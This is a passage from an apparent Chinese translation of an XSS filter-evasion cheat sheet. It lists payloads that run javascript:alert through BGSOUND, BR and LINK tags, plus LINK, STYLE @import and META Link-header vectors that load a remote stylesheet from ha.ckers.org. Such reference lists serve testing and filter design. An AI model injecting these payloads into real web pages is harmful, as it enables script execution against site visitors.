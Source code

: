 * * *

### BGSOUND(背景音乐)

```
<BGSOUND SRC="javascript:alert('XSS');">
```

* * *

### & JavaScript 包含

```
<BR SIZE="&{alert('XSS')}">
```

* * *

### 样式表

```
<LINK REL="stylesheet" HREF="javascript:alert('XSS');">
```

* * *

### 远程样式表

（通过某些方式例如最简单的远程样式表，你可以插入一个样式参数为嵌入表达式的xss代码）。它是仅仅工作在IE浏览器或是使用了IE渲染引擎的Netscape 8.1+。需要注意的是页面中并没有展现出它包含了javascript代码。注意：所有的远程样式表示例需要至少用到body标签，负责将无法工作除非页面中包含除了向量本身的其他内容。因此你需要添加至少一个字母到页面确保他可以工作如果它是一个空白页面。

```
<LINK REL="stylesheet" HREF="http://ha.ckers.org/xss.css">
```

* * *

### 远程样式表2

他的工作原理与上面相同。但是使用了STYLE标签代替LINK标签。榆次向量稍有不同的变异被用于攻击Google Desktop。你可以移除</STYLE>标签当后面的html去闭合它。这个向量是有用的在不允许输入等号或是反斜杠的实际环境中。

```
<STYLE>@import'http://ha.ckers.org/xss.css';</STYLE>
```

* * *

### 远程样式表3

它仅仅可以工作在 Opera 8.0 (no longer in 9.x) ，但是是非常的狡猾。 Opera 8.0 (no longer in 9.x) 。根据RFC2616规定，设置一个连接头不是 HTTP1.1 规定的一部分，但是很多浏览器仍然允许它（例如Firefox and Opera）。这个技巧是我们可以设置一个http头（与常规http头没有什么不同，只是 Link: [http://ha.ckers.org/xss.css](http://ha.ckers.org/xss.css); REL=stylesheet）。这样带有xss代码的远程向量将运行javascript。他并不被支持在 FireFox。

```
<META HTTP-EQUIV="Link" Content="<http://ha.ckers.org/xss.css>; REL=stylesheet">
```
